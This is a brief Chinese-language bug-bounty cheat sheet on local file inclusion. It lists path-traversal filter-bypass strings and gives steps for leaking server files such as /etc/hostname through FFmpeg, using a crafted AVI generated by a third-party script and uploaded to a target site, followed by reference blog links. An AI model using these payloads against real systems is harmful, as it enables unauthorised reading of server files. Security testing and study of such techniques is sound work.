 ## LFI 本地文件包含

**过滤器绕过**

```
../\
```

```
..\/
```

```
/..
```

```
\/..
```

```
/%5c..
```

***FFmpeg本地文件泄露**

这个 [script](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py) by @neex 能用来在FFmpeg发现本地文件，参考[HLS playlists](https://ffmpeg.org/ffmpeg-formats.html#hls-2).

_复现步骤_

1. 下载@neex脚本
2. 用你测试的参数执行脚本: `python3 gen_xbin_avi.py file:///etc/hostname bugbounty.avi`
3. 将生成的AVI文件上传到目标站点(例如在“视频上传页面”内)
4. 目标可能在服务器端处理包含FFmpeg的恶意HLS。
5. 通过目标站点播放上传的AVI。如果成功，您想要的文件将在视频中公开。

存在其他脚本，它们可能生成不同的HLS格式，或者导致以不同的方式公开所需的文件。

**Blogs**
* http://pastie.org/840199
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
* http://www.notsosecure.com/folder2/2010/08/20/lfi-code-exec-remote-root/?utm_source=twitterfeed&utm_medium=twitter
* http://labs.neohapsis.com/2008/07/21/local-file-inclusion-%E2%80%93-tricks-of-the-trade/
* http://www.digininja.org/blog/when_all_you_can_do_is_read.php
